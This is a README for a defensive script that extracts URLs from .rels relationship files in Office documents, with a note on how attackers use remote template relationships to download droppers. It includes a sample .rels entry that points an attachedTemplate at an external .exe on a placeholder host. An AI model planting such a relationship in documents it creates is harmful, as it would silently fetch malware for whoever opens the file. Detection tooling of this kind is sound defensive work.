 # rels_url
Office 2007+ Relational links URL extractor  

rels_url is a script that parses post 2007 or newer Micsocoft Office documents (e.g. docx, xlsx, pptx), to reveal URLs located in .rels files.  

## What is a RELS file? 
Files that contain the .rels file extension are relationship files. These files contain information about how the parts of different Microsoft Office documents fit together. This information is also referred to as relationship parts.

RELS files serve as markers for the documents that they pertain to. They allow the various Microsoft Office applications to utilize the information in one file so that it can be used in another file.

The RELS file format is only compatible with the more recent versions of the Microsoft Office applications which support Open Office XML documents. The RELS files are saved in the directory of the Open Office XML document.

## How threat actors use the RELS files for malicious purposes  
Threat actors can use the RELS file to access URLs and download a dropper file. This tactic is very sneaky since the .rels files are read when a document is opened and before the user can interact with the document. The user is not prompted to allow the URL to be accessed.  

## Example of a .rels file  
\<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">\<Relationship  Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"  Target="https://sample.com/sample1/sample2/file.exe" TargetMode="External"/>\</Relationships>

## To Use:  
rels_url.py  file.docx

*The output will list the folder and file the URL is located in:*  

## Sample Output  
 C:\Users\cyb3rw01f>rels_url.py D:\rels_docx

_rels/.rels

word/_rels/document.xml.rels

word/_rels/settings.xml.rels  
"https://sample.com/sample1/sample2/file.exe"

customXml/_rels/item1.xml.rels

customXml/_rels/item2.xml.rels

customXml/_rels/item3.xml.rels

customXml/_rels/item4.xml.rels
